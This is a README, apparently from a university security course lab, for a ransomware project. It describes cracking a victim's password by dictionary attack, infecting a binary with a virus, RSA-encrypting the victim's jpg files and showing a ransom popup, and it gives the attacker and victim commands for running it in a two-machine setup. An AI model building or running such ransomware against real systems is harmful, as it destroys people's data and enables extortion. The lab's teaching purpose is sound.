

# Ransomware Propagation and Payload

## Description
- Crack the victim's password by launching a dictionary attack (assume that the username is known as **csc2023**)
- Infect the file **/home/csc2023/cat** by embedding the compression virus
- Encrypt all picture files in **jpg** in **/home/csc2023/Pictures** via RSA
- Pop up a window showing a message requesting ransom

## Usage 
### Build
Perpare two machines, attacker and victim, and run the command in the attacker machine.
```bash
$ make
```

### Ransomware Progration and Payload
Set up the attacker machine via the command in attacker machine.
```bash
$ ./attacker_server <Attacker port>
```
Run the command in attacker machine to crack the victim's password and infect the file **/home/csc2023/cat**.
```bash
$ ./crack_attack <Victim IP> <Attack IP> <Attacker Port>
```
Run **/home/csc2023/cat** file in victim machine and the result is shown below.


### Decryption
Decrypt all picture files in **jpg** in **/home/csc2023/Pictures** in victim machine.
```bash
$ ./decrypt.sh
```